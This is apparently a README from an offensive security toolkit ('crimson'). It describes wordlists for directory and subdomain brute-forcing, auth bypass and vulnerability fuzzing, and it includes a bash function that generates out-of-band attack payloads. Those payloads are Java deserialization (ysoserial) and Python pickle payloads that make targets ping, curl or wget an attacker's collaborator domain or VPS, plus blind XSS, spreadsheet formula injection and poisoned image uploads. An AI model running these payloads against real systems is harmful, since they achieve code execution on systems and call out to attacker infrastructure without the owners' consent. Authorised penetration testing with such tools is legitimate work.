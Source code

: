 # WORDS

> This directory contains wordlists of words that I have collected from many different sources and filtered for `crimson`.

* :small_red_triangle_down: exp directory

> This directory contains wordlists for manual and automatic testing of various known vulnerailities.

* :small_red_triangle_down: skeleton directory

> This directory could help you build your own wordlist for directory brute-forcing.

* :small_red_triangle_down: BCK_EXT

> This wordlist contains various extensions for `crimson_backuper`

* :small_red_triangle_down: blank

> This is blank wordlist for `wfuzz`

* :small_red_triangle_down: bug

> This wordlist contains various strings that could make and internal server error or find local file inclusions, path traversals, remote code execution and other known vulnerabilities. It is all around wordlist for manual testing.

* :small_red_triangle_down: dir

> This is wordlist for directory brute-forcing.

* :small_red_triangle_down: npm_names_10000.txt and npm_names_1mln.txt

> This is wordlist for /js/vendor path bruteforcing

* :small_red_triangle_down: quick.txt

> This is wordlist for common directory bruteforcing

* :small_red_triangle_down: dns

> This is wordlist for the subdomain brute-forcing

* :small_red_triangle_down: dns-altsdns.txt

> This is wordlist for `altdns` mutations

* :small_red_triangle_down: exp/AUTH_BYPASS

> First use "Battering ram" with first 200 lines. Then whole list with sniper as username(admin|your_account), then password(Pa$$P0licy_baby123).


## ALIAS
```bash
function words {
    # Java deserialization payload URLDNS (* swap the java path if does not work)
    java -jar "$HOME"/tools/crimson/scripts/GOAST/ysoserial.jar URLDNS "http://$1" | base64 -w0 |sed "s/$/\n/g" > oob.fuzz
    # PYTHON DESERIALIZATION PING CURL WGET
    python3 $HOME/tools/crimson/scripts/pickle_ser.py "ping $1" >> oob.fuzz
    python3 $HOME/tools/crimson/scripts/pickle_ser.py "curl $1/curl_pickle_ser" >> oob.fuzz
    python3 $HOME/tools/crimson/scripts/pickle_ser.py "wget $1/wget_pickle_ser" >> oob.fuzz
    python3 $HOME/tools/crimson/scripts/pickle_ser.py "ping $2" >> oob.fuzz
    if [[ -z "$3" ]]; then
      python3 $HOME/tools/crimson/scripts/pickle_ser.py "curl $2/curl_pickle_ser" >> oob.fuzz
      python3 $HOME/tools/crimson/scripts/pickle_ser.py "wget $2/wget_pickle_ser" >> oob.fuzz
    else
        python3 $HOME/tools/crimson/scripts/pickle_ser.py "curl $2:$3/curl_pickle_ser" >> oob.fuzz
        python3 $HOME/tools/crimson/scripts/pickle_ser.py "wget $2:$3/wget_pickle_ser" >> oob.fuzz
    fi
      # BLIND XSS PAYLOADS
    python3 "$HOME/tools/crimson/scripts/blind_xss_gen.py" "$HOME/tools/crimson/words/exp/BLIND_XSS" "$1" >> oob.fuzz
    if [[ -z "$3" ]]; then
        python3 "$HOME/tools/crimson/scripts/blind_xss_gen.py" "$HOME/tools/crimson/words/exp/BLIND_XSS" "$2" >> oob.fuzz
    else
        python3 "$HOME/tools/crimson/scripts/blind_xss_gen.py" "$HOME/tools/crimson/words/exp/BLIND_XSS" "$2:$3" >> oob.fuzz
    fi
    # Preparing OOB payloadlist and copying it to the clipboard
    cat "$HOME"/tools/crimson/words/exp/OOB | sed "s/domain_collab/$1/g" |sed "s/vps_ip/$2/g" >> oob.fuzz1
    cat oob.fuzz1 | sed "s/$2:80/$2:$3/g" >> oob.fuzz && rm oob.fuzz1
    cat "$HOME"/tools/crimson/words/exp/BLIND_XSS | sed "s/domain_collab/$1/g" >> oob.fuzz
    cat oob.fuzz | clip.exe
    # Preparing other wordlists and files to upload
    cat "$HOME"/tools/crimson/words/bug >> bug.fuzz
    cat "$HOME"/tools/crimson/words/exp/http_leaks | sed "s/domain_collab/$1/g" >> http_leaks
    cat "$HOME"/tools/crimson/words/exp/bypass_ext >> bypass_ext
    cat "$HOME"/tools/crimson/words/exp/spoofing_headers.txt > spoofing_headers.txt
    # Preparing upload
    mkdir upload
    cd upload
    cp "$HOME"/tools/crimson/upload/* .
    cat exiftool.jpg | sed "s/domain_collab/$1/g" >> 123 && mv 123 exiftooldomain.jpg
    cat exiftool.jpg | sed "s/domain_collab/$2:$3/g" >> 123 && mv 123 exiftoolvps.jpg
    cat formula_injections.txt | sed "s/domain_collab/$1/g" |sed "s/vps_ip/$2/g" >> formula_injections1
    cat formula_injections1 | sed "s/$2:80/$2:$3/g" >> formula_injections.txt && rm formula_injections1
    cd ..
}

```
